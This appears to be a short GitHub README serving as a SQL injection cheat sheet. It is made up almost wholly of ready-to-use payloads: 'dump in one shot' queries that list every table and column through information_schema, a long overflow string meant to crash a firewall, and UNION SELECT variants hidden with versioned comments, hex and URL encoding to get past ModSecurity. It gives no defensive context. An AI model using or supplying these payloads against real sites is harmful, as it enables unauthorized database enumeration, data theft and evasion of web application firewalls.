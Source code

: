 

## Sql inyection + dios sql

```
/*!u%6eion*/ /*!se%6cect*/+1,concat(@:=0,(select count(*)from information_schema.columns where@:=concat(@,'<br>',table_name,'::',column_name)),@),3..

(select(@x)from(select(@x:=0x00),(select(0)from(information_schema.columns)where(table_schema=database())and(0x00)in(@x:=concat+(@x,0x3c62723e,table_name,0x203a3a20,column_name))))x)

CONCAT(Tablas <br>,(SELECT(@x)FROM(SELECT(@x:=0x00),(@NR:=0),(SELECT(0)FROM(INFORMATION_SCHEMA.TABLES)WHERE(TABLE_SCHEMA!=information_schema)AND(0x00)IN(@x:=CONCAT(@x,LPAD(@NR:=@NR%2b1,2,0x30),0x3a20,table_name,0x3c62723e))))x))
```

### Sql inyection Buffer Overflow / Firewall Crash bypass + xss inyection

`+and+(select%201)=(Select%200xaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa....)+/*!uNIOn*/+/*!SeLECt*/+1,2,3,4,....+--+`

### sql inyection payload+ bypass Mod_Security 

```
/*!50000un0x696fn*/+/*!12345AlL*/(/*!50000se0x6c65ct*/+1)+--+

/*!50000%75%6e%69on*/ %73%65%6cect 1,2,3,4...

/*!12345UnioN*//**/(/*!12345seLECT*//**/1)+--

/*!12345#qa%0A#%0AUnIOn*/(/*!12345#qa%0A#%0ASeleCt*//**/1)+--+

```

### Sql inyection payload + comment + hex/unhex

`/*!50000select*/unhex(hex(/*!12345concat*/(0x223e,version(),0x223e,database())))`

### Sql inyection payload + url encode 

`+/*!12120%55%6e%49%6f%4e*/+(%53%65%4c%65%43%74+111,222,333,database(),555,...)+--+`




